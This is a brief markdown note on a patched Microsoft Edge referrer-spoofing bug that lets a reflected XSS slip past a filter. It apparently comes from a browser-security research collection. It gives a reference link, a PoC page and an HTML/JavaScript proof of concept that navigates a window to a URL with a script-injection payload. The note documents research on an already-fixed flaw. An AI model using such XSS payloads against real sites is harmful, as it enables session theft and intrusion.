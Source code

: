 ## Exploiting the referrer spoofing bug (Edge only)

supplement:

Confirmed fix as of April 2018.

Conditions for attacking:

1. Has reflective XSS

Reference URL:

- [https://www.brokenbrowser.com/referer-spoofing-patch-bypass/](https://www.brokenbrowser.com/referer-spoofing-patch-bypass/)

PoCs:

[https://l0.cm/bypass/edge_referer_spoofing.html](https://l0.cm/bypass/edge_referer_spoofing.html)

```html
<script>
//Found by @magicmac2000
function go(){
  var win = window.open("edge_referer_spoofing_redirector");
  var ifr = win.document.createElement("iframe");
  win.document.appendChild(ifr);
  win[0].opener = win;
  win[0].setTimeout("alert('wait');opener.location='https://vulnerabledoma.in/bypass/text?q=<script>alert(1)<\/script>'");
}
</script>
<button onclick=go()>go</button>
```
